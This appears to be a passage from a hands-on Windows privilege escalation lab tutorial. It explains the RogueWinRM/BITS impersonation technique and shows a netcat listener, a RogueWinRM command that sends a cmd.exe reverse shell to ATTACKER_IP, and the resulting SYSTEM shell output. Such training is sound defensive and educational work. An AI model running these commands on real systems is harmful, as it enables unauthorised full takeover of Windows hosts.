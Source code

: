 The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. 
Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. 
Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. 
If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

Kali
Linux
user@attackerpc$ nc -lvp 4442
And then, use our web shell to trigger the RogueWinRM exploit using the following command:

c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
RogueWinRM exploit execution

Note: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The -p parameter specifies the executable to be run by the exploit, which is nc64.exe in this case. 
The -a parameter is used to pass arguments to the executable. 
Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be -e cmd.exe ATTACKER_IP 4442.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

Kali
Linux
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task.

Make sure to click the Start Machine button before you continue, which will deploy the target machine in split-view. 
If you prefer connecting to the machine via RDP, you can use the following credentials:
Unpatched Software
Software installed on the target system can present various privilege escalation opportunities. A
s with drivers, organisations and users may not update them as often as they update the operating system. 
You can use the wmic tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):
